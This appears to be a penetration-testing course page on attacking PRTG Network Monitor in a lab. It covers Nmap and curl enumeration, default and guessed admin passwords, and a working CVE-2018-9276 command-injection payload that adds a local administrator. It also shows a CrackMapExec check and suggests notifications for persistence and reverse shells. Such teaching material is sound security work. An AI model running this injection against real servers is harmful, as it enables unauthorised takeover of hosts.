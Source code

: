 # PRTG Network Monitor

[PRTG Network Monitor](https://www.paessler.com/prtg) is agentless network monitor software. It can be used to monitor bandwidth usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more. The first version of PRTG was released in 2003. In 2015 a free version of PRTG was released, restricted to 100 sensors that can be used to monitor up to 20 hosts. It works with an autodiscovery mode to scan areas of a network and create a device list. Once this list is created, it can gather further information from the detected devices using protocols such as ICMP, SNMP, WMI, NetFlow, and more. Devices can also communicate with the tool via a REST API. The software runs entirely from an AJAX-based website, but there is a desktop application available for Windows, Linux, and macOS. A few interesting data points about PRTG:

* According to the company, it is used by 300,000 users worldwide
* The company that makes the tool, Paessler, has been creating monitoring solutions since 1997
* Some organizations that use PRTG to monitor their networks include the Naples International Airport, Virginia Tech, 7-Eleven, and [more](https://www.paessler.com/company/casestudies)

Over the years, PRTG has suffered from [26 vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html) that were assigned CVEs. Of all of these, only four have easy-to-find public exploit PoCs, two cross-site scripting (XSS), one Denial of Service, and one authenticated command injection vulnerability which we will cover in this section. It is rare to see PRTG exposed externally, but we have often come across PRTG during internal penetration tests. The HTB weekly release box [Netmon](https://0xdf.gitlab.io/2019/06/29/htb-netmon.html) showcases PRTG.

***

## Discovery/Footprinting/Enumeration

We can quickly discover PRTG from an Nmap scan. It can typically be found on common web ports such as 80, 443, or 8080. It is possible to change the web interface port in the Setup section when logged in as an admin.

```shell-session
$ sudo nmap -sV -p- --open -T4 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 15:41 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.06% done
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 65492 closed ports, 24 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  ssl/http      Splunkd httpd
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp  open  ssl/http      Splunkd httpd
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.17 seconds
```

From the Nmap scan above, we can see the service `Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)` detected on port 8080.

PRTG also shows up in the EyeWitness scan we performed earlier. Here we can see that EyeWitness lists the default credentials `prtgadmin:prtgadmin`. They are typically pre-filled on the login page, and we often find them unchanged. Vulnerability scanners such as Nessus also have [plugins](https://www.tenable.com/plugins/nessus/51874) that detect the presence of PRTG.

<figure><img src="../../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Once we have discovered PRTG, we can confirm by browsing to the URL and are presented with the login page.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/index.htm</p></figcaption></figure>

From the enumeration we performed so far, it seems to be PRTG version `17.3.33.2830` and is likely vulnerable to [CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276) which is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor before version 18.2.39. Based on the version reported by Nmap, we can assume that we are dealing with a vulnerable version. Using `cURL` we can see that the version number is indeed `17.3.33.283`.

```shell-session
$ curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version

  <link rel="stylesheet" type="text/css" href="/css/prtgmini.css?prtgversion=17.3.33.2830__" media="print,screen,projection" />
<div><h3><a target="_blank" href="https://blog.paessler.com/new-prtg-release-21.3.70-with-new-azure-hpe-and-redfish-sensors">New PRTG release 21.3.70 with new Azure, HPE, and Redfish sensors</a></h3><p>Just a short while ago, I introduced you to PRTG Release 21.3.69, with a load of new sensors, and now the next version is ready for installation. And this version also comes with brand new stuff!</p></div>
    <span class="prtgversion">&nbsp;PRTG Network Monitor 17.3.33.2830 </span>
```

Our first attempt to log in with the default credentials fails, but a few tries later, we are in with `prtgadmin:Password123`.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/welcome.htm</p></figcaption></figure>

***

## Leveraging Known Vulnerabilities

Once logged in, we can explore a bit, but we know that this is likely vulnerable to a command injection flaw so let's get right to it. This excellent [blog post](https://www.codewatch.org/blog/?p=453) by the individual who discovered this flaw does a great job of walking through the initial discovery process and how they discovered it. When creating a new notification, the `Parameter` field is passed directly into a PowerShell script without any type of input sanitization.

To begin, mouse over `Setup` in the top right and then the `Account Settings` menu and finally click on `Notifications`.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/myaccount.htm?tabid=2</p></figcaption></figure>

Next, click on `Add new notification`.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/editnotification.htm?id=new&#x26;tabid=1</p></figcaption></figure>

Give the notification a name and scroll down and tick the box next to `EXECUTE PROGRAM`. Under `Program File`, select `Demo exe notification - outfile.ps1` from the drop-down. Finally, in the parameter field, enter a command. For our purposes, we will add a new local admin user by entering `test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add`. During an actual assessment, we may want to do something that does not change the system, such as getting a reverse shell or connection to our favorite C2. Finally, click the `Save` button.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After clicking `Save`, we will be redirected to the `Notifications` page and see our new notification named `pwn` in the list.

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://10.129.201.50:8080/myaccount.htm?tabid=2</p></figcaption></figure>

Now, we could have scheduled the notification to run (and execute our command) at a later time when setting it up. This could prove handy as a persistence mechanism during a long-term engagement and is worth taking note of. Schedules can be modified in the account settings menu if we want to set it up to run at a specific time every day to get our connection back or something of that nature. At this point, all that is left is to click the `Test` button to run our notification and execute the command to add a local admin user. After clicking `Test` we will get a pop-up that says `EXE notification is queued up`. If we receive any sort of error message here, we can go back and double-check the notification settings.

Since this is a blind command execution, we won't get any feedback, so we'd have to either check our listener for a connection back or, in our case, check to see if we can authenticate to the host as a local admin. We can use `CrackMapExec` to confirm local admin access. We could also try to RDP to the box, access over WinRM, or use a tool such as [evil-winrm](https://github.com/Hackplayers/evil-winrm) or something from the [impacket](https://github.com/SecureAuthCorp/impacket) toolkit such as `wmiexec.py` or `psexec.py`.

```shell-session
$ sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 

SMB         10.129.201.50   445    APP03            [*] Windows 10.0 Build 17763 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.201.50   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

And we confirm local admin access on the target! Work through the example and replicate all of the steps on your own against the target system. Challenge yourself to also leverage the command injection vulnerability to obtain a reverse shell connection from the target.

***

## Onwards

Now that we've covered Splunk and PRTG let's move on and discuss some common customer service management and configuration management tools and see how we can abuse them during our engagements.
